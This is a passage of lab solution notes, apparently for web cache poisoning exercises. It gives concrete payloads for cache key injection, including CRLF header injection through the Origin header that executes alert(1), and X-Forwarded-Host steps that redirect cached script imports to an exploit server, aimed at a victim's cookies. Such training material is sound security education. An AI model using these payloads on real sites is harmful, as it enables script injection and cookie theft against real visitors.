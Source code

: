 HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

### Cache key injection

This lab contains multiple independent vulnerabilities, including cache key injection. A user regularly visits this site's home page using Chrome.

To solve the lab, combine the vulnerabilities to execute *alert(1)* in the victim's browser. Note that you will need to make use of the Pragma: *x-get-cache-key* header in order to solve this lab.

**Solution:**
1. Observe that the redirect at */login* excludes the parameter *utm_content* from the cache key using a flawed regex. This allows you append arbitrary unkeyed content to the lang parameter:

    ```/login?lang=en?utm_content=anything```
2. Observe that the page at */login/* has an import from */js/localize.js*. This is vulnerable to client-side parameter pollution via the lang parameter because it doesn't URL-encode the value.
3. Observe that the login page references an endpoint at */js/localize.js* that is vulnerable to response header injection via the Origin request header, provided the cors parameter is set to 1.
4. Use the *Pragma: x-get-cache-key* header to identify that the server is vulnerable to cache key injection, meaning the header injection can be triggered via a crafted URL.
5. Combine these four behaviors by poisoning the cache with following two requests:
    ```
    GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
    Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

    GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1
    ```
6. This will poison */login?lang=en* such that it redirects to a login page with a poisoned localization import that executes *alert(1)*, solving the lab.


### Internal cache poisoning

This lab is vulnerable to web cache poisoning. It uses multiple layers of caching. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the internal cache so that the home page executes *alert(document.cookie)* in the victim's browser.

**Solution:**
1. Notice that the home page is a suitable cache oracle and send the *GET /* request to Burp Repeater.
2. Observe that any changes to the query string are always reflected in the response. This indicates that the external cache includes this in the cache key. Use Param Miner to add a dynamic cache-buster query parameter. This will allow you to bypass the external cache.
3. Observe that the *X-Forwarded-Host* header is supported. Add this to your request, containing your exploit server URL:
    ```X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net```
4. Send the request. If you get lucky with your timing, you will notice that your exploit server URL is reflected three times in the response. However, most of the time, you will see that the URL for the canonical link element and the *analytics.js* import now both point to your exploit server, but the *geolocate.js* import URL remains the same.
5. Keep sending the request. Eventually, the URL for the *geolocate.js* resource will also be overwritten with your exploit server URL. This indicates that this fragment is being cached separately by the internal cache. Notice that you've been getting a cache hit for this fragment even with the cache-buster query parameter - the query string is unkeyed by the internal cache.
```